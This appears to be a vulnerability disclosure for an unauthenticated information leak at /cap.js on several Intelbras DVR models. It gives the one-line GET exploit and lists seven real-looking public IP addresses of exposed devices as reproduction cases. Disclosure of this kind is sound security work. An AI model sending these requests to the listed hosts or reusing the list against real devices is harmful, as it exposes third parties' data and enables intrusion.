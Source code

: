 # Unrestricted Access and Potential Exposure of Sensitive Information on Intelbras DVR Series

## **Vulnerability Summary**

The HTTP GET request to **`/cap.js`** on the server Intelbras DVR reveals several potentially sensitive pieces of information that are not properly protected or encrypted. The disclosed information includes device types, user information, streaming capabilities, network ports, and configurations which could be exploited by attackers to gain unauthorized access or conduct targeted attacks, affecting over 520,000 devices on the Internet.

![Untitled](intelbras_fofa.png)

## **Affected Models**

MHDX 1004, MHDX 1008, MHDX 1016, MHDX 5016, HDCVI 1008, HDCVI 1016

## Exploitation

Launch an HTTP GET request to the target device: http://127.0.0.1/cap.js

## Reproduction Details

Several cases on the Internet were randomly selected:

http://143.137.206.226:8080/cap.js 

http://189.114.89.190/cap.js

http://143.137.206.68:8080/cap.js

http://170.246.250.145:8080/cap.js

http://191.241.145.3:37777/cap.js

http://189.92.17.151:91/cap.js

http://186.210.30.0:21/cap.js

## Actual Result

![Untitled](intelbras_acutal1.png)

![Untitled](intelbras_actual2.png)

## Fix Recommendation

It is recommended to restrict access to the administrative interfaces of the device to trusted IP addresses only and apply network-level authentication.
